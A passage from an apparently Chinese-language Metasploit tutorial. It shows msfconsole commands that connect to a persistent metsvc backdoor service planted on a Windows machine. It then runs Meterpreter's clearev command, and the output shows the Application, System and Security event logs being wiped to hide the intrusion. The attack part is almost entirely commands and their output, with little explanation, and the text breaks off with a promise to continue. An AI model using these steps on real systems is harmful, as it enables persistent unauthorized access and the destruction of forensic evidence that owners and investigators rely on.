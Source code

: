 之后电脑就默默生成了一个自启服务Meterpreter
然后连接后门

	msf exploit(handler) > use exploit/multi/handler
	msf exploit(handler) > set payload windows/metsvc_bind_tcp
	payload => windows/metsvc_bind_tcp
	msf exploit(handler) > set RHOST 10.42.0.54
	RHOST => 10.42.0.54
	msf exploit(handler) > set LPORT 31337
	LPORT => 31337
	msf exploit(handler) > exploit

####清理痕迹:)

	meterpreter > clearev  
	[*] Wiping 12348 records from Application...  
	[*] Wiping 1345 records from System...  
	[*] Wiping 3 records from Security...  


##0x05 And So On...

Look it
[Tree](http://www.c-chicken.cc/msf.txt)

Meterpreter太强大:( 
![](http://7xicbb.com1.z0.glb.clouddn.com/gz.gif)
待续补充完整：）

